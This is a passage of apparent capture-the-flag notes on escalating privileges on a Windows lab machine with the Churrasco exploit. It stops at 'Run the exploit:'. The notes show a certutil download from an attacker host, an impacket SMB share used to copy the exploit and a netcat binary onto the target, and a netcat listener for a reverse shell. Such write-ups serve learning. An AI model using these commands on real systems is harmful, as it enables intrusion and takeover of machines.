 *   Put the exe on apache server:

```
crazyeights@es-base:~$ sudo cp Downloads/Churrasco-master/churrasco.exe /var/www/html/
[sudo] password for crazyeights: 
crazyeights@es-base:~$ sudo service apache2 start

```

*   Try to download exec from the server:

```
certutil.exe -UrlCache -split -f "http://10.10.14.11/churrasco.exe" bad.exe
```

*   Got stuck...
*   Used the same method as: [https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html)
*   Didn't know you could do this
*   Use SMB server from impacket to make files available to remote machine

##### Start the server:

```
crazyeights@es-base:~/tools/impacket/examples$ sudo python3 smbserver.py share /home/
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

##### Download the files from the SMB server:

*   Download the churrasco exploit:

```
C:\wmpub>copy \\10.10.14.11\share\churrasco.exe bad.exe
copy \\10.10.14.11\share\churrasco.exe bad.exe
        1 file(s) copied.
```

*   Download 32-bit netcat executable:

```
C:\wmpub>copy \\10.10.14.11\share\nc.exe nc32.exe
copy \\10.10.14.11\share\nc.exe nc32.exe
        1 file(s) copied.
```

###### Start the listener on your machine:

```
nc -lvp 9999
```

###### Run the exploit:
